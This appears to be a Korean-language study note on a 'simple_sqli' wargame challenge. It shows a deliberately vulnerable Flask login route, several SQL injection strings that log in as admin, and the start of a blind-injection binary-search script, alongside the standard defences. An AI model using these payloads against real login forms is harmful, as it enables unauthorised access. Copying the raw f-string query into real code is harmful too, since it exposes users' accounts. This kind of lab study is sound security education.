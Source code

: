 SQL injection 방어 방법
- Prepared Statement
- Object Relational Mapping (ORM)

### wargame

**simple_sqli**
관리자 계정으로 로그인하면 출력되는 flag를 획득

/login
- 입력받은 ID/PW를 데이터베이스에서 조회
- 해당하는 데이터가 있는 경우 로그인 수행

```python
@app.route('/login', methods=['GET', 'POST']) 
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
def login(): # login 함수 선언
	if request.method == 'GET': # 이용자가 GET 메소드의 요청을 전달한 경우,
		# 이용자에게 ID/PW를 요청받는 화면을 출력  
		return render_template('login.html') 
	else: # POST 요청을 전달한 경우
		# 이용자의 입력값인 userid를 받은 뒤, 
		userid = request.form.get('userid') 
		# 이용자의 입력값인 userpassword를 받고
		userpassword = request.form.get('userpassword') 
		# users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴 
		res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
		if res: # 쿼리 결과가 존재하는 경우 
			# 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
			userid = res[0] 
			# 이 때, 로그인 계정이 관리자 계정인 경우 
			if userid == 'admin':
				# flag를 출력
				return f'hello {userid} flag is {FLAG}'  
			# 관리자 계정이 아닌 경우, 웰컴 메시지만 출력 
			return f'<script>alert("hello {userid}");history.go(-1);</script>' 
		# 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력 
		return '<script>alert("wrong");history.go(-1);</script>'
```
- `res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')`
	- 이 부분에서 userid, userpassword를 유저 입력값에서 가져오므로 sql injection 취약점이 있음(Raw query)
	- 로그인 페이지에서 userid 칸의 마지막에  `" -- ` 를  넣으면 `and userpassword="{userpassword}"` 을 주석 처리 할수 있음
- 여러 방법이 있음
	- SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"
	- SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"
	- SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"
	- SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"

**Blind SQL injection**
1) 이진 탐색을 사용해서 비밀번호 길이 획득
```python
def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int: 
	while 1: 
		mid = (low+high) // 2 
		if low+1 >= high:
			break 
		query = query_tmpl.format(val=mid) 
		if "hello" in self._sqli(query).text: 
			high = mid 
		else: 
			low = mid 
	return mid 

# attack methods 
```